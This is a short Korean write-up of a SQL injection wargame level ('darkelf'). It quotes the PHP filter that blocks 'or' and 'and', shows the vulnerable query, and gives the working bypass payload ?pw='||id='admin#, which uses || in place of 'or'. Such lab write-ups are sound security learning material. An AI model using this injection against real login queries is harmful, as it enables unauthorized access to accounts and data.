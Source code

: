 <img width="195" alt="스크린샷 2020-01-16 오후 6 56 00" src="https://user-images.githubusercontent.com/54495632/72515179-cc2b6c80-3892-11ea-8598-97d5e11dc656.png">

6번 DARKELF

<img width="702" alt="스크린샷 2020-01-16 오후 6 56 21" src="https://user-images.githubusercontent.com/54495632/72515195-d3eb1100-3892-11ea-99be-732e58fccac1.png">

소스코드를 보면,

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
-> or과 and 가 필터링 된다.

$query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
쿼리 문 자체는 그 전 문제와 차이가 없다.

if($result['id'] == 'admin') solve("darkelf");  -> id= admin 인 경우 문제가 solve된다.

or과 and 가 필터링됐는데 and는 이 문제에서 이용하지 않았고
or을 || 로 대체하여 사용했다.

$query = "select id from prob_darkelf where id='guest' and pw=''||id='admin'#
과 같이 쿼리를 주어 해결했다.

URL로 하면, ?pw='||id='admin# 에 해당된다.

<img width="697" alt="스크린샷 2020-01-16 오후 6 57 17" src="https://user-images.githubusercontent.com/54495632/72515434-3a702f00-3893-11ea-8673-406b1c629eb2.png">